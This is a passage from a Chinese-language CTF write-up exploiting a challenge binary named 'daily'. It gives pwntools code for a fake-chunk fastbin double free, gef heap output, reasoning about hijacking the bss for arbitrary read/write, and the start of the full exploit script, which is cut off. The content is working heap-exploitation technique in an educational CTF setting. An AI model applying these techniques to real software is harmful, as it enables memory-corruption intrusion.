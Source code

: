 #### 劫持控制流

利用上述提到的漏洞，在堆上构造fake chunk和指向fake chunk的指针，然后构建fastbin 2free.

```python
fake_chunk = p64(0) + p64(0x71)
fake_chunk += "a" * 0x60
fake_chunk += p64(0x60) + p64(0x100)
fake_chunk += p64(0x60) + p64(heap_addr + 0x1f0)

bss = 0x602068

add(0x200, fake_chunk) # 0x1a0

offset = (heap_addr + 0x1f0 + 0x60 + 0x18 - bss) / 16
free(str(offset))

free(0)

change(5, fake_chunk)
free(str(offset))
```



此时：

fd -> fake_chunk ->idx0 ->fake_chunk

```
gef➤  heap bins
[+] No Tcache in this version of libc
────────────────────── Fastbins for arena 0x7fc5dc6d9b20 ──────────────────────
Fastbins[idx=0, size=0x10] 0x00
Fastbins[idx=1, size=0x20] 0x00
Fastbins[idx=2, size=0x30] 0x00
Fastbins[idx=3, size=0x40] 0x00
Fastbins[idx=4, size=0x50] 0x00
Fastbins[idx=5, size=0x60]  ←  Chunk(addr=0x25a01f0, size=0x70, flags=PREV_INUSE)  ←  Chunk(addr=0x25a0010, size=0x70, flags=PREV_INUSE)  ←  Chunk(addr=0x25a01f0, size=0x70, flags=PREV_INUSE)  →  [loop detected]

```

但是本题操蛋的是，四个one_gadget对malloc_hook都不行，所以只能尝试free_hook。但是不能直接劫持free_hook,所以我们尝试修改top，劫持到free_hook——不过，此路也走不通，因为没开pie，堆地址不是0x55开头。其实，sb了，直接劫持到bss段即可用change和add方法实现任意读写

#### 完整exp

```python
from pwn import *
# from LibcSearcher import *
context.log_level = "debug"

elf = ELF("./daily")
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
p = process("./daily")


def show():
    p.recvuntil("choice:")
    p.sendline("1")

def add(size, content):
    p.recvuntil("choice:")
    p.sendline("2")
    p.recvuntil("of daily:")
    p.sendline(str(size))
```
